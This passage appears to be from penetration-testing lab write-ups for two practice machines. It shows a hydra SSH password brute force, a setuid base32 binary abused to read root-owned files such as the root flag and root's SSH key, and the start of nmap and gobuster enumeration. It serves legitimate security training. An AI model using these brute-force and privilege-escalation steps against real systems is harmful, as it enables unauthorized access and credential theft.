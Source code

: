 With the username as `geisha`, a brute force was launched on the ssh server using hydra as follows &rarr; `hydra -l geisha -P /home/tanq/installations/SecLists/rockyou.txt ssh://192.168.56.82`.

This gives the password as `letmein`. After a successful login, the user flag can be obtained.

## Privilege Escalation

Using the user shell, enumerated for setuid binaries as follows &rarr; `find / -perm -u=s 2>/dev/null`.

This resulted in an interesting find for the binary `/usr/bin/base32`. This could be used to read files with a privileged access, thereby allowing reads of files owned by root. Therefore, it was used to read the root flag as follows &rarr;

```
file=/root/proof.txt
/usr/bin/base32 "$file" | /usr/bin/base32 --decode
```

This can also be used to obtain root shell by using it to leak the ssh key of root and then using it to log in to the machine via ssh.

This gave the root flag.

---

# Ha-Natraj

## Enumeration

Machine IP &rarr; `192.168.51.80`

### Network Scan

Nmap scan &rarr; `nmap -sC -sV -Pn -p- -A -o nmap.txt 192.168.51.80`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

### Table

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.29 (Ubuntu)                                 |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.51.80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed &rarr;

- images/
- index.html
- console/
